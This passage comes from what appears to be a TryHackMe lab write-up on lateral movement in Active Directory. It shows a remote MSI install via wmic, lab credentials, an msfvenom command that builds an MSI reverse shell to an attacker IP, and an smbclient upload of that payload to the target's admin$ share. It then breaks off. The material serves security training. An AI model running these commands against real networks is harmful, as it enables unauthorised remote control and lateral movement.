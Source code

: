 
##### Using `wmic` in Legacy systems to do the same thing:

```powershell
> wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```



### Application

- To complete this exercise, you will need to connect to `THMJMP2` using the credentials assigned to you on Task 1 from `http://distributor.za.tryhackme.com/creds`.

- If you haven't done so yet, click on the link and get credentials. Once you have your credentials, connect to THMJMP2 via SSH:

<u>Format</u>:

```bash
$ ssh za\\<AD Username>@thmjmp2.za.tryhackme.com
```

- For this exercise, we will assume we have already captured some credentials with **administrative access**:

**User:** `ZA.TRYHACKME.COM\t1_corine.waters`

**Password:** `Korine.1994`

- We'll show how to use those credentials to move laterally to ***THM-IIS*** using WMI and MSI packages. Feel free to try the other methods presented during this task.

<u>Actual</u>:

```bash
$ ssh za\\t1_corine.waters`@thmjmp2.za.tryhackme.com
```


##### Step 1: Creating `MSI` payload with `msfvenom`:

```shell
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.50.49.2 LPORT=4445 -f msi > DANGERZONE.msi
```

- `Lateral movement IP` : `10.50.49.2`

<u>Output in the VM</u>:

![](/assets/img/Pasted image 20230205233522.png)

##### Step 2: Copy the payload using `SMB` (or any other method)

```bash
user@AttackBox$ smbclient -c 'put DANGERZONE.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
 putting file myinstaller.msi as \myinstaller.msi (0.0 kb/s) (average 0.0 kb/s)
```
